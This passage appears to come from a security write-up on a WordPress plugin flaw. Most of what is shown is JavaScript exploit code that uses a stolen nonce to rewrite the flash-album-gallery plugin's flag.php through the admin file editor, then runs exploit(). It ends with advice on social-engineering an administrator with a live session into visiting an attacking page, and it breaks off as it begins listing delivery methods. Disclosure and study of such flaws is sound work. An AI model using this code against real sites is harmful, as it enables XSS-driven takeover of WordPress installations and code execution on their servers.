        pd = {
            _wpnonce: nonce,
            _wp_http_referer: PLUGIN_EDIT_URL + "&a=te&scrollto=0",
            a: "",
            scrollto: "192",
            newcontent: encodeURIComponent(pluginCode),
            action: "update",
            file: "flash-album-gallery/flag.php",
            plugin: "flash-album-gallery/flag.php",
            submit: "Update+File"
        };
        // Build the post data.
        postdata = "";
        for (var key in pd) {
            postdata += (key + "=" + pd[key] + "&");
        }
        postdata = postdata.substr(0, postdata.length-1); // rstrip the last &
        preq.send(postdata);
    }

    /*
     * Removes the HTML char entity references for the HTML meta characters.
     */
    function removeCharEntityReferences(data) {
        if ((typeof data) !== "string") {
            throw new TypeError("data needs to be a string");
            return null;
        }

        data = data.replace(/&quot;/g, "\"");
        data = data.replace(/&#039;/g, "'");
        data = data.replace(/&lt;/g, "<");
        data = data.replace(/&gt;/g, ">");
        data = data.replace(/&amp;/g, "&");

        return data;
    }

    exploit();

### How dangrous is the vulnerability?

I'd say such security holes are **very dangerous**.

Of course you need a minimal social engineering effort in order to make
the victim visit your attacking site that incorporates the auto
submittable form which in turn triggers the XSS. Additionaly, you need
to ensure that the victim possesses valid admin cookies of his wordpress
site. But there are ways to increase the likelihood that he has a valid
admin session when you attack him (Or better: When he visits the
attacking site).

For example here are some ways to deliver the attack:
